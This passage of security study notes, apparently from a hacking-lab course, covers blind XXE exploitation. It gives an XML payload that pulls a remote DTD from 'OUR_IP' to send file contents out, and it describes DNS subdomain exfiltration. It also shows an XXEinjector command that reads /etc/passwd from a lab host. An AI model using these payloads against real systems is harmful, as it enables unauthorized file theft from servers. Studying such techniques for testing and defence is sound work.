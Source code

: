 - initiate the attack, by simply adding `<root>&content;</root>` which reference our entity and send the request to our machine with the file content

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
	<!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
	%remote;
	%oob;
]>
<root>&content;</root>
```

> in addition to storing our base64 encoded data as a parameter to our URL, we may utilize `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our ULR (eg - `ENCODEDTEXT.our.website.com`) and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data.

## Automated OOB Exfiltration

- can automate the process of blind XXE data exfiltration with tools
- https://github.com/enjoiz/XXEinjector
- with this tool, copy the HTTP request from Burp and write it to a file for the tool to use
- not include the full XML data, only the first line and write `XXEINJECT` after it as a position locator for the tool

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
- run the tool with the 
	- `--host/--httpport` flags as our IP port
	- `--path` flag for the file we want to read
	- `--oob=http` and `--phpfilter` flags to repeat the OOB attacks

```sh
ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

---

# XXE Prevention
